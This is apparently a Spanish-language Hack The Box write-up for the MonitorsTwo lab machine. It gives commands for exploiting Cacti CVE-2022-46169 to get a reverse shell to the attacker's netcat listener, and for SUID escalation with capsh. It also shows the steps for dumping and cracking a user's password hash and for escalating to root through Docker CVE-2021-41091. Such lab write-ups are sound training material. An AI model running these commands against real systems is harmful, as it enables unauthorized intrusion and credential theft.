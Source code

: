 ```yaml
---
#obsidian
banner: "/resources/banners/arknights.png"
banner_y: 0.29429
banner_icon: 📝
#blog
layout: post
title: MONITORS TWO WRITEUP.
subtitle: Resolucion de la maquina monitors two de HTB.
header-img: img/in-post/htb/monitors_two/header.webp
header-style: image
header-mask: rgba(0, 0, 0, .4)
catalog: true
tags:
  - htb
  - docker-abuse
  - rce
  - password-cracking

---
```


  <!-- HTML Meta Tags -->
  <title>MONITORS TWO WRITEUP.</title>
  <meta name="description" content="Resolución de la máquina monitors two de HTB.">
  <meta property="og:site_name" content="QuantumWavves">
  <meta property="og:image" content="https://quantumwavves.github.io/img/in-post/htb/monitors_two/monitors-two.webp">

  <!-- Facebook Meta Tags -->
  <meta property="og:url" content="https://quantumwavves.github.io/2023/09/21/monitors-two/">
  <meta property="og:type" content="website">
  <meta property="og:title" content="MONITORS TWO WRITEUP.">
  <meta property="og:description" content="Resolución de la máquina monitors two de HTB.">
  <meta property="og:image" content="https://quantumwavves.github.io/img/in-post/htb/monitors_two/monitors-two.webp">
  <meta property="og:image:width" content="200" />
  <meta property="og:image:height" content="200" />

  <!-- Twitter Meta Tags -->
  <meta name="twitter:card" content="summary_large_image">
  <meta property="twitter:domain" content="quantumwavves.github.io">
  <meta property="twitter:url" content="https://quantumwavves.github.io/2023/09/21/monitors-two/">
  <meta name="twitter:title" content="MONITORS TWO WRITEUP.">
  <meta name="twitter:description" content="Resolución de la máquina monitors two de HTB.">
  <meta name="twitter:image" content="https://quantumwavves.github.io/img/in-post/htb/monitors_two/monitors-two.webp">

## Tools
- Python
- Netcat 
- John The Ripper
## Topics
- Remote Code Execution / Reverse Shell
- Docker
- CVE's 
- Privilege Escalation
- Password HASH cracking
- SSH

Hola, el dia de hoy vamos a resolver la maquina de monitors two de HTB.

Primero realizaremos un escaneo de reconocimiento con NMAP.

## Reconocimiento

```bash
sudo nmap -Pn -p- -A -T4 -oN scan.txt 10.10.11.211
```
Obtenemos el resultado del escaneo:

![nmap-scan](/img/in-post/htb/monitors_two/nmap-scan.png)

Observamos que existen dos puertos abiertos, el 22 que corresponde al servicio de SSH y el 80 que corresponde al servicio de HTTP. Revisamos el puerto 80 a través del navegador.

![cacti-login](/img/in-post/htb/monitors_two/cacti-login.png)

Observamos que es un login de Cacti, un software para el monitoreo de red. Probamos contraseñas  que estan por defecto sin tener exito. Sin embargo podemos buscar CVE para la versión 1.2.22 de cacti, misma que nos muestra en el login.

## RCE / Reverse Shell

Después de una búsqueda encontramos una CVE para la versión 1.2.22.

- [CVE 2022-46169](https://cve.mitre.org/cgi-bin/cvename.cgi?name=VE-2022-46169)

Buscando encontre el siguiente script que nos ayuda con la RCE y nos brinda una reverse shell.

-  [FredBrave CVE-2022-46169](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)

Utilizare Netcat con los siguientes flags -n para que no haga resolucion de dns, -l para estar a la escucha, -v de verbose y -p que indica el puerto, en este caso 443:

```bash
sudo nc -nlvp 443
```

Utilizando el script para la RCE podremos obtener la reverse shell.

```bash
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST 10.10.16.79 --LPORT=443
```

![python-script](/img/in-post/htb/monitors_two/python-script.png)

Ahora obtenemos la reverse shell a través del puerto 443.

![reverse-shell](/img/in-post/htb/monitors_two/reverse-shell.png)

## Escalada de privilegios

Utilizaremos esta herramienta para enumerar los binarios SUID.

- [LinEnum](https://github.com/rebootuser/LinEnum)

Crearemos un servidor web para poder acceder al recurso.

![webserver](/img/in-post/htb/monitors_two/python-webserver.png)

Obtenemos el recurso con wget.

![wget-source](/img/in-post/htb/monitors_two/wget-source.png)

Le damos permisos de ejecucion.

```bash
chmod +x LinEnum.sh
  ```

![LinEnum-Permission](/img/in-post/htb/monitors_two/linenum-permission.png)

Una vez ejecutado el script nos listara los archivos SUID, nos interesa el archivo ``/sbin/capsh``. ¿Por que nos interesa este archivo? Principalmente por que no pierde privilegios heredados, por que lo que puede funcionar nos como puerta trasera. Mas sobre este archivo:

- [gtfobins](https://gtfobins.github.io/gtfobins/capsh/)

![suid-enum](/img/in-post/htb/monitors_two/suid-files.png)

Nos dirigimos a la ruta ``/sbin`` donde se encuentra el archivo capsh y ejecutaremos el siguiente comando para poder escalar privilegios.

```bash
./capsh --gid=0 --uid=0 --
```

![capsh](/img/in-post/htb/monitors_two/capsh.png)

## Obteniendo credenciales

Observamos que mysql esta dentro del contenedor, utilizamos el siguiente comando para listar a los usuarios root.

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"
```

<img src="/img/in-post/htb/monitors_two/mysql.png" onclick="window.open(this.src)">

Vemos que existe un usuario ``marcus`` y nos da un hash del password del usuario.

## Cracking Hash Password

Utilizaremos john the ripper para encontrar una coincidencia con un diccionario.

![john](/img/in-post/htb/monitors_two/john.png)

Vemos que ha encontrado una posible coincidencia.

## Logeandose por ssh

Intentaremos acceder por ssh introduciendo las credenciales del usuario marcus.

![ssh-auth](/img/in-post/htb/monitors_two/ssh-auth.png)

Y listo, tenemos acceso desde el usuario ``marcus``.

![login](/img/in-post/htb/monitors_two/ssh-login.png)

## Escalando privilegios

Listaremos la version de docker que se esta utilizando.

![docker-v](/img/in-post/htb/monitors_two/docker-v.png)

Vemos que es la version ``20.10.5+dfsg1``, buscaremos alguna CVE que pueda ayudarnos con la escalada de privilegios. Después de una busqueda encontre un script que nos ayuda con esta CVE.

- [Mitre CVE 2021-41091](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-41091)
- [CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091)

Para poder usar este script necesitamos volver al contenedor y asignar a /bin/bash permisos de suid.

![bash](/img/in-post/htb/monitors_two/bash-u+s.png)

Exponemos el recurso con un servidor web como lo hicimos anteriormente.

![wget-exp](/img/in-post/htb/monitors_two/wget-exp.png)

Le damos permisos de ejecucion para poder utilizarlo. 

![exp=permission](/img/in-post/htb/monitors_two/exp-permission.png)

Despues de la ejecucion vemos que nos arroja un path: <br> ``/var/lib/docker/overlay2/c41d5854e4bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged``.

![exp-exe](/img/in-post/htb/monitors_two/exp-exe.png)

Nos dirigimos a ese directorio y ejecutamos el siguiente comando para obtener la shell en root.

```bash
./bin/bash -p
```

![powned](/img/in-post/htb/monitors_two/powned.png)

Y listo, ahora somos root.

Eso ha sido todo por el post, si piensas que me he equivocado en la informacion o en que he omitido algo que pueda mejorar el post, puedes contactarme por discord `quantumwavves`
